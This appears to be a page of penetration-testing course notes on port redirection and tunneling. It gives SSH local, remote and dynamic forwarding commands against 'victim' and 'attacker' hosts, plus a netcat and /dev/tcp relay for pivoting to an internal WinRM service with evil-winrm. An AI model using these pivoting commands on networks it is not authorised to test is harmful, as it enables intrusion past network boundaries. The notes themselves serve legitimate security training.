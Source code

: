# Module 20 (Port Redirection and Tunneling)

The concept behind Port Forwarding&#x20;

<figure><img src="../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

Attack Simulation

<figure><img src="../.gitbook/assets/image (174).png" alt=""><figcaption></figcaption></figure>

* SSH Tunneling&#x20;
  * SSH Remote Port Forwarding
  * SSH Dynamic Port Forwarding
  * SSH Local Port Forwarding

### SSH Local Port Forwarding

```bash
sudo ssh -L 127.0.0.1:80:192.168.1.19:80 victim@192.168.1.10
```

### SSH Remote Port Forwarding

```bash
sudo ssh -R  8080:127.0.0.1:80 attacker@192.168.1.8 
```

### SSH Dynamic Port Forwarding

```bash
ssh -D 8080 vps@112.125.1.54
```

<figure><img src="../.gitbook/assets/image (175).png" alt=""><figcaption></figcaption></figure>

### **Bash** <a href="#bash" id="bash"></a>

```bash
# On the jump server connect the port 3333 to the 5985
mknod backpipe p;
nc -nvlp 1111 0>backpip  | nc -nv <ip> 22 1>backpip

# On InternalA accessible from Jump and can access InternalB
## Expose port 3333 and connect it to the winrm port of InternalB
exec 3<>/dev/tcp/internalB/5985
exec 4<>/dev/tcp/Jump/3333
cat <&3 >&4 &
cat <&4 >&3 &

# From the host, you can now access InternalB from the Jump server
evil-winrm -u username -i Jump
```

### Resources <a href="#bash" id="bash"></a>

{% embed url="https://book.hacktricks.xyz/generic-methodologies-and-resources/tunneling-and-port-forwarding" %}
